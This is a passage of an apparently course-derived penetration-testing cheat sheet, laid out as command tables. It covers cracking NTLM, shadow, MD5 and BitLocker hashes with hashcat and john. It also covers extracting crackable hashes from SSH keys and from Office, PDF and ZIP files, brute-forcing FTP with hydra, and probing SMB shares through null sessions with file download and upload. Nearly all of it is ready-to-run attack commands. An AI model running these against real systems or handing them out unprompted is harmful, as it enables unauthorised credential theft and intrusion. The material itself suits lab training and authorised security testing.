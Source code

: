 #### Cracking Passwords
| **Command**                                                                                                | **Description**                                                                                                                                |
| ---------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------- |
| hashcat -m 1000 dumpedhashes.txt /usr/share/wordlists/rockyou.txt                                          | Uses Hashcat to crack NTLM hashes using a specified wordlist.                                                                                  |
| hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt --show                   | Uses Hashcat to attempt to crack a single NTLM hash and display the results in the terminal output.                                            |
| unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes                                          | Uses unshadow to combine data from passwd.bak and shadow.bk into one single file to prepare for cracking.                                      |
| hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked                         | Uses Hashcat in conjunction with a wordlist to crack the unshadowed hashes and outputs the cracked hashes to a file called unshadowed.cracked. |
| hashcat -m 500 -a 0 md5-hashes.list rockyou.txt                                                            | Uses Hashcat in conjunction with a word list to crack the md5 hashes in the md5-hashes.list file.                                              |
| hashcat -m 22100 backup.hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt -o backup.cracked | Uses Hashcat to crack the extracted BitLocker hashes using a wordlist and outputs the cracked hashes into a file called backup.cracked.        |
| ssh2john.pl SSH.private > ssh.hash                                                                         | Runs Ssh2john.pl script to generate hashes for the SSH keys in the SSH.private file, then redirects the hashes to a file called ssh.hash.      |
| john ssh.hash --show                                                                                       | Uses John to attempt to crack the hashes in the ssh.hash file, then outputs the results in the terminal.                                       |
| office2john.py Protected.docx > protected-docx.hash                                                        | Runs Office2john.py against a protected .docx file and converts it to a hash stored in a file called protected-docx.hash.                      |
| john --wordlist=rockyou.txt protected-docx.hash                                                            | Uses John in conjunction with the wordlist rockyou.txt to crack the hash protected-docx.hash.                                                  |
| pdf2john.pl PDF.pdf > pdf.hash                                                                             | Runs Pdf2john.pl script to convert a pdf file to a pdf has to be cracked.                                                                      |
| john --wordlist=rockyou.txt pdf.hash                                                                       | Runs John in conjunction with a wordlist to crack a pdf hash.                                                                                  |
| zip2john ZIP.zip > zip.hash                                                                                | Runs Zip2john against a zip file to generate a hash, then adds that hash to a file called zip.hash.                                            |
| john --wordlist=rockyou.txt zip.hash                                                                       | Uses John in conjunction with a wordlist to crack the hashes contained in zip.hash.                                                            |
| bitlocker2john -i Backup.vhd > backup.hashes                                                               | Uses Bitlocker2john script to extract hashes from a VHD file and directs the output to a file called backup.hashes.                            |
| file GZIP.gzip                                                                                             | Uses the Linux-based file tool to gather file format information.                                                                              |
| for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null | tar xz;done   | Script that runs a for-loop to extract files from an archive. 

<a id="11-attacking-common-services"></a>
### 11. Attacking Common Services

#### Attacking FTP

|**Command**|**Description**|
|-|-|
| `ftp 192.168.2.142` | Connecting to the FTP server using the `ftp` client. |
| `nc -v 192.168.2.142 21` | Connecting to the FTP server using `netcat`. |
| `hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142` | Brute-forcing the FTP service. |

#### Attacking SMB

|**Command**|**Description**|
|-|-|
| `smbclient -N -L //10.129.14.128` | Null-session testing against the SMB service. |
| `smbmap -H 10.129.14.128` | Network share enumeration using `smbmap`. |
| `smbmap -H 10.129.14.128 -r notes` | Recursive network share enumeration using `smbmap`. |
| `smbmap -H 10.129.14.128 --download "notes\note.txt"` | Download a specific file from the shared folder. |
| `smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"` | Upload a specific file to the shared folder. |
| `rpcclient -U'%' 10.10.110.17` | Null-session with the `rpcclient`. |